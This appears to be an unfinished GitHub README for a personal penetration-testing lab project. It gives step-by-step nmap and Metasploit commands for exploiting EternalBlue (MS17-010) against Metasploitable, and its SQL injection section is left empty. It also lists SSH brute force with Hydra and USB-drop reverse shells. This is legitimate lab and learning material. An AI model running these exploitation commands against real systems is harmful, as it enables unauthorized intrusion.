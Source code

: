 CAUTION: USING ANY OF THESE METHODS WITHOUT OWNERS CONSENT MAY/WILL RESULT IN PERSECUTION. ENSURE ALL PROPER PROCEDURES HAVE TAKEN PLACE BEFORE MOVING ON. 
[Under Construction]
___________________
The objective of this project was to familiarize myself with known vulnerabilities and
with said knowledge, be able to build counter measures/patch necessary apps & OS. 
___________________

 - Eternal Blue is one of my favorite vulns, it exposed how many devices could be easily infected with little to no effort by sending modified packets 
to the victim machine. Windows had a vulnerability within the OS server message block. This has crippled entire sectors of industrial sites when combined
with wannacry.

 - SQL Injection is a very common attack vector as many corporations/servers use SQL. 

 - Brute force ssh using hydra to show how basic ssh/telnet/ftp/sftp/mysql services can be brute forced when improperly configured or straight out vulnerable.

 - Reverse shells by "dropping USBs" (simulating a physical pentest)
   
--------------------------
HOW TO REPLICATE 
--------------------------
NOTE: I will be using metasploitable both win/linux to demonstrate most if not all vulns/exploits. 

- 💙Eternal Blue💙
  Step 1: Once your windows server and kali/parrot machine is spun up, ensure the two machines can communicate with each other by either using netdiscover or Nmap. | sudo netdiscover -r ipaddress/prefix | OR | nmap -T4 -sV --version-all --osscan-guess -A -p 1-10000 ipaddress |
------------------------------
  Step 2: Use Nmap to confirm the windows server is vulnerable by using one of the NSE scripts that come with Nmap, | nmap -p 139, 445 --script smb-vuln-ms17-010 ipaddress |
------------------------------
 Step 3: Once verified, within your attacking machine spin up msfconsole and search for the smb-ms17-010 exploit and configure it for your victim machine. | msfconsole , use exploit/windows/smb/ms17_010_eternalblue , options , set rhost ipaddress , check , run |
------------------------------
Congrats you have used an exploit to gain unauthorized access!
++++++++++++++++++++++++++++++++++++++++++++++++++++
- ✒️SQL Injection✒️ 
Step 1:






